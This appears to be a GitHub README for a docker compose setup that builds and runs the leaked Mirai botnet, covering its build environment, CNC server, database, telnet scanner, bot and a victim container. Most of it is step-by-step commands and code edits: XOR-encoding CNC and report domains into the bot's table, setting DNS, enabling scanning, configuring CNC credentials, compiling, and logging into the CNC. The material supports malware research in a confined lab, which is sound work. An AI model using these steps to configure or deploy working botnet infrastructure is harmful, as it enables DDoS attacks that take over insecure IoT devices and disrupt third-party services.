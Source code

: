 # Mirai-Docker

This is a docker compose file that makes it easy to build the [Mirai Botnet](https://en.wikipedia.org/wiki/Mirai_(malware)) development environment, CNC server and database.

Mirai Botnet is a malware that performs DDoS attacks by infecting insecure Internet of Things(IoT) devices.
It was used in a DDoS attack in 2016, and the source code was leaked.
It is now open to [Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code) for malicious code analysis and research purposes. 

미라이 봇넷의 개발 환경과 CNC 서버 및 데이터베이스를 쉽게 구축할 수 있도록 만든 도커 컴포즈 파일입니다.

미라이 봇넷은 보안이 취약한 사물 인터넷(IoT) 기기를 감염시켜 DDoS 공격을 수행하는 악성코드입니다.
2016년 DDoS 공격에 사용되었으며, 소스코드가 유출되어 현재는 악성코드 분석 및 연구 목적으로 [Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code)에 공개되어 있습니다.

**WARNING: FOR RESEARCH PURPOSES ONLY. 연구 목적으로만 사용하세요.**


## 01. Install docker and docker compose
https://docs.docker.com/get-docker/

https://github.com/docker/compose


## 02. Clone this repository
```
$ git clone https://github.com/deunlee/Mirai-Docker
$ cd Mirai-Docker
```


## 03. Build docker containers
```
$ docker compose build
```


## 04. Encrypt your domain
```
$ docker compose run compile ./enc.sh string cnc.changeme.com
XOR'ing 17 bytes of data...
\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22
```
```
$ docker compose run compile ./enc.sh string report.changeme.com
XOR'ing 20 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22
```

<!--
```
$ docker compose run compile ./enc.sh string cnc-10-20-0-10.nip.io
XOR'ing 22 bytes of data...
\x41\x4C\x41\x0F\x13\x12\x0F\x10\x12\x0F\x12\x0F\x13\x12\x0C\x4C\x4B\x52\x0C\x4B\x4D\x22
```
```
$ docker compose run compile ./enc.sh string report-10-20-0-10.nip.io
XOR'ing 25 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0F\x13\x12\x0F\x10\x12\x0F\x12\x0F\x13\x12\x0C\x4C\x4B\x52\x0C\x4B\x4D\x22
```
-->

## 05. Configure bot
Edit some domains in [./src/mirai/bot/table.c](./src/mirai/bot/table.c)
```c
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
add_entry(TABLE_CNC_PORT, "\x22\x35", 2); // 23

add_entry(TABLE_SCAN_CB_DOMAIN, "\x50\x47\x52\x4D\x50\x56\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 29); // report.changeme.com
add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2); // 48101
```

Edit DNS server in [./src/mirai/bot/resolv.c](./src/mirai/bot/resolv.c)
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    // ...

    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(8,8,8,8); // <-- here!
    addr.sin_port = htons(53);

    // ...
}
```

If you want to enable scanner in debug mode, comment out the following two lines in [./src/mirai/bot/main.c](./src/mirai/bot/main.c)
```c
// #ifndef DEBUG // <-- comment here!
#ifdef MIRAI_TELNET
    scanner_init();
#endif
// #endif // <-- comment here!
```

Edit get_random_ip() function in [./src/mirai/bot/scanner.c](./src/mirai/bot/scanner.c)
```c
static ipv4_t get_random_ip(void)
{
    uint32_t tmp;
    uint8_t o1, o2, o3, o4;

    // comment do-while loop

    return INET_ADDR(172, 20, 0, rand_next() & 0xff); // fixed ip range
}
```

## 06. Configure CNC
Edit database config in [./src/mirai/cnc/main.go](./src/mirai/cnc/main.go)
```go
const DatabaseAddr string   = "mariadb" // "127.0.0.1"
const DatabaseUser string   = "user"
const DatabasePass string   = "this-is-password!"
const DatabaseTable string  = "mirai"
```

Edit prompt path in [./src/mirai/cnc/admin.go](./src/mirai/cnc/admin.go)
```go
headerb, err := ioutil.ReadFile("/home/user/src/mirai/prompt.txt") // <-- here!
```

Edit CNC user in [./src/scripts/db.sql](./src/scripts/db.sql)
```sql
-- CREATE DATABASE mirai; --- comment here!

CREATE TABLE `history` (

--- ...

  KEY `prefix` (`prefix`)
);

INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, ''); --- here!
```


## 07. Compile everything
```
$ docker compose run compile ./build.sh
```

Debug bot only:
```
$ docker compose run compile ./debug.sh
```


## 08. Run CNC, loader, scanListen and mariadb
```
$ docker compose up
```

## 09. Connect to CNC server
```
$ docker compose exec cnc telnet 127.0.0.1
```
```
$ telnet 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
я люблю куриные наггетсы
пользователь: mirai-user
пароль: **********

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
mirai-user@botnet#
```

<!--
```
$ docker compose run compile
mysql -h mariadb -P 3306 -u"user" -p"this-is-password!"
use mirai;
select * from users;
```
```
$ docker compose up mariadb -d
$ docker compose run compile sudo ./src/mirai/debug/cnc
```
-->


## 10. Run victim (insecure telnet server)
```
$ docker compose run victim
```


## 10. Run bot
It will scan and report victims.
```
$ docker compose run bot /home/user/src/mirai/debug/mirai.dbg
```
